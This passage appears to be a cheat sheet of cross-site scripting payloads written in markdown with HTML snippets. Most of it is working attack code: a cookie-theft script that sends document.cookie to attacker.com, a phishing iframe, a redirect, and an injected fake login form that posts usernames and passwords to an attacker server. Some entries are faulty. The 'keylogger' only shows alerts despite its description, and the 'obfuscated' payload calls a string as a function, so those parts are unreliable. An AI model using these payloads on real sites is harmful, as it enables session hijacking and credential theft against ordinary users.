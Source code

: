 - **Image Error:** This payload uses an image tag with an invalid source. When the image fails to load, the `onerror` event handler triggers the alert.

```html
<img src="x" onerror="alert('XSS');">
```

- **SVG Payload:** This payload uses an SVG (Scalable Vector Graphics) tag with an `onload` event handler to trigger the alert.

```html
<svg/onload=alert('XSS')>
```

## Advanced XSS Payloads

- **Cookie Theft:** This payload redirects the user's browser to the attacker's site, including the user's cookies as a URL parameter.

```html
<script>document.location="http://attacker.com/steal?cookie="+document.cookie;</script>
```

- **Keylogger:** This script listens for keypress events and sends the captured keystrokes to an attacker's server.

```html
<script>
document.onkeypress = function(e) {
    var key = e.which || e.keyCode;
    alert('Key pressed: ' + String.fromCharCode(key));
};
</script>
```

- **Redirect:**

```html
<script>window.location="http://malicious.com";</script>
```

- **Iframe Injection (Phishing):**

```html
<iframe src="http://malicious.com" width="500" height="500"></iframe>
```

- **Obfuscated XSS (Bypassing Filters):**

```html
<script>String.fromCharCode(97,108,101,114,116)(document.cookie);</script>
```

- **Fake Login Form:** This payload replaces the page content with a fake login form that submits credentials to an attacker-controlled server.

```html
<script>
document.body.innerHTML = '<form action="http://attacker.com/phish" method="POST">Username: <input type="text" name="username"><br>Password: <input type="password" name="password"><br><input type="submit" value="Login"></form>';
</script>
```
